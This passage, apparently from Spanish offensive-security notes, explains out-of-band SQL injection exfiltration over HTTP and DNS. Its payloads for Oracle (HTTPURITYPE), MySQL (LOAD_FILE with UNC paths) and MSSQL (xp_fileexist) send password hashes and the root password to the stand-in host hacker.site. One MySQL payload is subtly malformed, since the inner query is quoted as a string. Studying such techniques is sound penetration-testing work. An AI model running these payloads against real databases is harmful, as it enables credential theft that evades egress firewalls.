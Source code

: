 También podemos exfiltrar información a través de HTTP:

```sql
SELECT HTTPURITYPE ('hacker.site'/||(SELECT spare4 FROM SYS.USER$ WHERE ROWNUM=1)).getclob() FROM DUAL;

# getclob() method returns the character large object (CLOB), but we can also use other methods such as: GETBLOB(), GETXML() and GETCONTENTTYPE()
```

### OOB via DNS

En este contexto, en lugar de controlar el servidor web tenemos que controlar un servidor DNS.

> Incluso si el administrador establece una política agresiva de cortafuneros que filtra cualquier conexión saliente, el sitio de la víctima todavía podrá responder a las solicitudes y realizar consultas DNS.

* El servidor utiliza un solucionador DNS configurado por el administrador de la red, pero el solucionador necesita ponerse en contacto con un servidor DNS bajo el control de los atacantes, por lo que devuelve los resultados de la inyección al atacante.
* Como requisito, el hacker debe tener acceso al servidor DNS.

> El servidor debe ser registrado como el servidor de nombres autorizado para esa zona (por ejemplo, hacker.site)

Provocando peticiones de DNS

#### MySQL (win)

Función: LOAD-FILE() lee el archivo y devuelve el contenido del archivo como una cadena:

```sql
SELECT LOAD_FILE("C:\\Windows\\system.uni");
```

Podemos explotar esta función y provocar las solicitudes de DNS solicitando una ruta de UNC como esta: \[data].hacker.site

```sql
SELECT LOAD_FILE(CONCAT('\\\\', 'SELECT password FROM mysql.user WHERE user=\'root\'','.hacker.site'));
```

#### MSSQL

Podemos provocar solicitudes de DNS usando **Caminos de UNC** como lo hicimos con MySQL

Podemos utilizar el procedur extendido almacenadoe MASTER..XP\_FILEEXIST determinar si existe un archivo en particular en el disco o no.

```sql
EXEC MASTER..XP_FILEEXIST 'C:\Windows\system.ini'
```

* 2 alternativas son **XP-DIRTREE** y **XP-SUBDIRS**
* Además en imágenes

#### Oracle
